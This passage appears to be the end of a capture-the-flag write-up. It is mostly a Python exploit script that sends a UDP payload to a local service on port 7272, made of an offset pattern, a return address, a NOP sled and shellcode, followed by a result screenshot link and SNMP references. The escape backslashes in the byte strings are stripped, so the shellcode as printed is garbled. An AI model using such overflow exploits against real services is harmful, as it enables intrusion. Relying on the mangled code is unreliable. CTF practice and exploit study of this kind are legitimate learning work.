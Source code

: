 <pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/python
from socket import *
import struct

host = "localhost"
port = 7272
shellcode ="AAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Abxe0xe6xffxbf"+"x90"*900+"xb8xb6x0ax95x0exd9xf7xd9x74x24xf4x31xc9x5dxb1x14x83xedxfcx31x45x10x03x45x10x54xffxa4xd5x6fxe3x94xaaxdcx8ex18xa4x03xfex7bx7bx43xa4xddxd1x2bxa4xe0xc4xf7x30xf5xb7x57x4cx14x5dx31x16x1ax22x34xe7xa0x90x42x58xcex1bxcaxdbxbfxc2x07x5bx2cx53xfdx63x0bxa9x81xd5xd2xc9xe9xcax0bx59x81x7cx7bxffx38x13x0ax1cxeaxb8x85x02xbax34x5bx44"
payload = "x30xff"+shellcode
sock = socket(AF_INET,SOCK_DGRAM)
sock.sendto(payload,(host,port))
sock.close()
</pre>

And result :

![exploit][3]

### References:

*   <a href="http://www.rane.com/note161.html" target="_blank">http://www.rane.com/note161.html</a>
*   <a href="http://www3.rad.com/networks/applications/snmp/main.htm" target="_blank">http://www3.rad.com/networks/applications/snmp/main.htm</a>

 [1]: /about-us/clgt-ctf-team/
 [2]: http://img40.imageshack.us/img40/7356/screenshot6uh.png
 [3]: http://img215.imageshack.us/img215/3538/screenshot5wz.png